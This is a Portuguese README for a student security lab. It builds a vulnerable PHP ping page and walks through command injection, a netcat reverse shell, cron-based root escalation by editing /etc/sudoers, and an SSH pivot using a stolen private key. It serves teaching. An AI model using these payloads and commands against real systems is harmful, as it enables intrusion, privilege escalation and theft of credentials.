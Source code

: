 # Projeto

## Grupo
- Fernando Braghiroli - 11800500
- Matheus Baptistella - 11223117

## Fase 1
### Funcionamento
Para este projeto, o objetivo era desenvolver um servidor web Apache em PHP 5 que tivesse alguma vulnerabilidade que o grupo pudesse explorar para criar uma demonstração. Para isso, o grupo criou uma página na qual o usuário pode inserir um domínio e o site utiliza o comando `ping` para pingar o domínio, mostrando parte do output do comando na página web para o usuário saber que o comando está funcionando. O código PHP processa a entrada do usuário a partir do formulário HTML e executa a seguinte linha de código:
```php
shell_exec("ping -c 4 " . $ip);
```

Ou seja, ele cria um comando a partir do input do usuário e manda para a shell executar. Isto é uma vulnerabilidade, pois a shell está executando algo controlado pelo o usuário. Deste modo, o grupo decidiu demonstrar o Atatque de "Command Injection" no PHP para utilizar esta vulnerabilidade. O ataque consiste em explorar o input de usuário que não é sanitizado para executar algum comando malicioso. Neste caso, o grupo decidiu abrir uma conexão de shell reversa, isto é, ao invés do atacante se conectar ao servidor (bind), como no caso inicial da página web para efetuar o ping, o atacante cria um listener em sua máquina que fica esperando por uma conexão. Assim, ao incluir o comando malicioso no alvo (servidor), o servidor é quem faz a request para se conectar ao atacante. Desta forma, o atacante obtém controle total sobre o sistema vulnerável através do shell reverso. Isso permite a execução de comandos, exploração de dados, e potencial escalonamento de privilégios.

### Execução
Para simular o ataque, inicialmente deve-se ter instalado na máuina local o Docker/docker compose, e o Netcat. Assim, é necessário estar no diretório do projeto:
```bash
cd projeto
```
e então pode-se iniciar o servidor (vítima) com o comando:
```bash
./start.sh
```
caso o script não tenha permissão para executar:
```bash
chmod +x start.sh
```
Para visualizar o serviço web, acesse o endereço `http://localhost:8080`. Teste o funcionamento esperado da página colocando `google.com` no campo para inserir o IP. O output será mostrado na própria página. Após verificar o correto funcionamento do serviço, na sua máquina local crie um listener com o netcat através do comando:
```bash
nc -lvnp 4444
```
neste listener será conectada a shell reversa. De volta para a página web, podemos modificar o input do usuário de forma que o servidor execute o ping e depois execute um comando adicional. Para isso, podemos formular o payload (para saber o endereço da interface pode-se utilizar o comando `ifconfig`):
```
google.com; nc <endereço inet da interface wlp3s0> 4444 -e /bin/bash
```
A primeira parte garante que o comando será válido, pois `ping` espera um endereço. Ao utilizar o caractere `;`, estamos instruindo a shell a executar o comando seguinte depois do ping. O próximo comando é utilizado para criar a conexão em shell reversa, ao utilizar o netcat para estabelecer uma conexão com o atacante na porta `4444` e executar uma shell `/bin/bash`. Assim, ao incluir o ip corretamente e submeter o formulário no serviço web, pode-se notar que no terminal do listener temos uma shell reversa:
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <address>
ls
index.php
whoami
www-data
pwd
/var/www/html
```

## Fase 2
### Funcionamento
Após invadir a máquina vítima, temos as permissòes para o usuário `www-data`. Desta forma, para conseguir aplicar a técnica de "pivoting" precisamos escalar privilégios. Um jeito comum de se fazer isso é através de scripts executados pelo `cron`, o qual permite a execução automática de comandos ou scripts em horários, datas ou intervalos regulares, especialmente aqueles criados pelos usuários mas que são executados como root. Ao colocar permissões erradas para o script que será executado de tempos em tempos, a vítima permite que o atacante sobrescreva o conteúdo do script com o que ele quiser. Depois disso, o atacante já tem acesso root na máquina e agora precisa escanear a rede para encontrar outras máquinas. Neste caso, a vítima possui uma outra máquina que serve como um backup de seu serviço web, copiando arquivos através de uma conexão ssh. Finalmente, o atacante pode encontrar a chave privada utilizada na conexão para que seja possível pivotar para a próxima máquina.

### Execução
Dentro da shell reversa e ainda como usuário `www-data` pode-se verificar o conteúdo dos scripts sendo executados pelo serviço `cron`. Para isso, pode-se listar os diretórios onde as tarefas são configuras:
```bash
ls /etc/ | grep cron
```
E depois ver quais são executadas no `crontab`. Entretanto, como o atacante ainda é um usuário normal os serviços executados como root não estarão visíveis. Neste caso, pode-se analidar quais estão configurados apra executar no diretório `cron.d`:
```bash
ls /etc/cron.d
cronjob
cat /etc/cron.d/cronjob
* * * * * root /usr/local/bin/date.sh
* * * * * root /usr/local/bin/backup.sh
```
Ou seja, existem duas tarefas programadas para serem executadas regularmente pelo cron. Ao analisar mais detalhadamente cada uma:
ls -l /usr/local/bin/     
-rwxrwxr-x 1 root root       562 Aug 21 11:37 backup.sh
-rwxrwxrwx 1 root root        44 Aug 20 19:48 date.sh

Nota-se que `date.sh` possui permissão de escrita para usuários da categoria `Others`, justamente o usuário do atacante (www-data). Assim, o objetivo agora é sobrescrever o conteúdo daquela tarefa para algo que dê o privilégio root. Assim, o comando:
```bash
echo '#!/bin/bash
echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
/bin/bash' > /usr/local/bin/date.sh
```
Desta forma, o atacante pode se otrnar qualquer usuário através do `sudo`, sem precisar de uma senha e podendo executar todos os coamndos. A tarefa do cron é executada a cada minuto, por isso pode ser que imediatamente nenhuma mudança seja percebida, mas pode-se verificar que tem-se todas as permissões digitando:
```bash
sudo -l
Matching Defaults entries for www-data on 690dde220c48:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 690dde220c48:
    (ALL) NOPASSWD: ALL
```
Pode-se instalar o python para testar os privilégios e conseguir uma shell tty:
```bash
sudo apt-get install python -y
```
e então
```bash
python -c "import pty; pty.spawn('/bin/bash');"
```
Após isso, pode-se tornar usuário root:
```bash
sudo -i
```
Ao analisar novamente o script `backup.sh`, nota-se que ele faz o backup através do `rsync` de um diretório na máquina vítima para outra máquina:
```bash
cat /usr/local/bin/backup.sh

```
Dai pode-se observar que a chave privada para conexão está em `/root/.ssh/id_rsa`. Finalmente, podemos utilizar o comando a seguir para pivotar para a próxima máquina como usuário `backupuser`:
```bash
ssh -i /root/.ssh/id_rsa -o StrictHostKeyChecking=no backupuser@backup
backupuser@0fe91d2c7d29:~$ whoami
backupuser
```

## Público Alvo
O público-alvo deste projeto de engenharia de segurança abrange uma ampla gama de pessoas, desde estudantes e profissionais da área até interessados sem conhecimento prévio no assunto. A proposta é tornar o conteúdo acessível para todos, com uma abordagem que possibilite tanto a compreensão de conceitos básicos para iniciantes quanto a expansão de conhecimentos para aqueles com formação técnica ou experiência no campo. Assim, a videoaula pode atender tanto a estudantes de engenharia e técnicos de segurança quanto gestores e colaboradores de empresas que desejam compreender melhor as práticas e normativas de segurança, além de entusiastas que buscam introdução ao tema.

## Resultados
A seguir estão expostos os resultados do formulário disponibilizado para o público alvo.
![Texto Alternativo](./images/results1.png)
![Texto Alternativo](./images/results2.png)
